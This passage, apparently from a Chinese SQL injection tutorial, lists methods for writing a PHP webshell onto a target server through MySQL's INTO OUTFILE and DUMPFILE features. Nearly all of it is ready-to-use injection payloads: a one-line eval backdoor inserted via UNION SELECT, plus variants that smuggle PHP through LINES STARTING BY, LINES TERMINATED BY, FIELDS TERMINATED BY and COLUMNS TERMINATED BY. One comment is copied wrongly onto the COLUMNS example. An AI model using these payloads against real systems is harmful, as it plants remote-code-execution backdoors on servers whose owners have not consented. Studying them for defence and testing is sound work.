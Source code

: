 ##### 2. 文件写入：

```
select 1,"&lt;?php @eval($_POST('a'));?&gt;",3 into outfile "/opt/lamp/temp";	//将一句话木马写入到目标服务器文件中。

```

条件：

1、知道web绝对路径

2、有文件写入权限(一般情况只有ROOT用户有)

3、数据库开启了secure_file_priv设置，然后就能用select into outfile写入webshell

常见手法：

联合注入写入：

```
?id=1' union select 1,"&lt;?php @eval($_POST['shell']);?&gt;",3 into outfile 'C:\\phpstudy\\WWW\\sqli\\shell.php'#

```

dumpfile函数写入：

```
?id=1' union select 1,"&lt;?php @eval($_POST['shell']);?&gt;",3 into dumpfile 'C:\\phpstudy\\WWW\\sqli\\shell.php'#

```

lines terminated by 写入：

```
?id=1 into outfile 'C:/wamp64/www/shell.php' lines terminated by '&lt;?php phpinfo()?&gt;';
//lines terminated by 可以理解为 以每行终止的位置添加 xx 内容。

```

lines starting by 写入：

```
?id=1 into outfile 'C:/wamp64/www/shell.php' lines starting by '&lt;?php phpinfo()?&gt;';
//利用 lines starting by 语句拼接webshell的内容。lines starting by 可以理解为 以每行开始的位置添加 xx 内容。

```

fields terminated by 写入：

```
?id=1 into outfile 'C:/wamp64/www/work/shell.php' fields terminated by '&lt;?php phpinfo() ?&gt;';
//利用 fields terminated by 语句拼接webshell的内容。fields terminated by 可以理解为 以每个字段的位置添加 xx 内容。

```

columns terminated by 写入：

```
?id=1 into outfile 'C:/wamp64/www/shell.php' COLUMNS terminated by '&lt;?php phpinfo() ?&gt;';
//利用 fields terminated by 语句拼接webshell的内容。fields terminated by 可以理解为 以每个字段的位置添加 xx 内容。

```
